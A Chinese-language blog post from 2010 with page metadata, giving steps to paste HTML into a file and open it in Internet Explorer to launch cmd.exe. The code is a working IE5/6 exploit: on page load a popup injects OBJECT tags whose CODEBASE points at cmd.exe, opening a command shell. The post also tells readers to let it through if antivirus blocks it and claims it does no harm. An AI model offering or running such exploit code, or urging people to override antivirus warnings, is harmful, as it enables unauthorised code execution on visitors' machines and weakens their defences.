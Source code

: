 ```yaml
---
stackbit_url_path: >-
  posts/Javascript-运行客户端的-cmd-程序
title: 'Javascript 运行客户端的 cmd 程序'
date: '2010-05-14 06:16:57'
excerpt: >-
  
comments_count: 0
positive_reactions_count: 0
tags: 
  - 
canonical_url: >-
template: post
---
```


        <p>一、在桌面上新建一个文本文件，并打开；</p>
<p>二、复制下面的代码，粘贴在文本文件中；</p>
<p>三、保存并关闭，然后将文本文件重命名为“test.html”；</p>
<p>四、用IE打开它。</p>
<p>&nbsp;</p>
<p>注意：如果有杀毒软件阻止它，请放行。它不会对电脑造成任何损害。</p>
<p>&nbsp;</p>
<p>代码：</p>
<pre class="brush: javascript">&lt;!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN"&gt;
&lt;HTML&gt;
&lt;HEAD&gt;
&lt;TITLE&gt;IE6 security...&lt;/TITLE&gt;
&lt;style type="text/css"&gt;
BODY{font-family:Arial,Helvetica,sans-serif;font-size:16px;color:#222222;background-color:#aaaabb}
H1{background-color:#222222;color:#aaaabb}
&lt;/style&gt;
&lt;META http-equiv=Content-Type content="text/html; charset=windows-1252"&gt;
&lt;SCRIPT language=JScript&gt;

var programName=new Array(
    'c:/windows/system32/cmd.exe',
    'c:/winnt/system32/cmd.exe',
    'c:/cmd.exe'
);

function Init(){
    var oPopup=window.createPopup();
    var oPopBody=oPopup.document.body;
    var n,html='';
    for(n=0;n&lt;programName.length;n++)
        html+="&lt;OBJECT NAME='X' CLASSID='CLSID:11111111-1111-1111-1111-111111111111' CODEBASE='"+programName[n]+"' %1='r'&gt;&lt;/OBJECT&gt;";
    oPopBody.innerHTML=html;
    oPopup.show(290, 190, 200, 200, document.body);
}

&lt;/SCRIPT&gt;
&lt;/head&gt;
&lt;BODY onload="Init()"&gt;
&lt;H1&gt;Hmm, let's start a command shell...&lt;/H1&gt;
&lt;p&gt;
This page doesn't do anything malicious, but is a demonstration of how to execute a program on a remote machine using the
marvelously secure Internet Explorer web browser!!
&lt;/p&gt;
&lt;p&gt;
Up until at least 18/02/02, this script would open a command window when viewed in IE5/6 under WindowsXP and Win2k (possibly also WinME). There
are currently no patches available using "Windows Update" which will prevent this.
&lt;/p&gt;
&lt;/BODY&gt;
&lt;/HTML&gt;
</pre>
      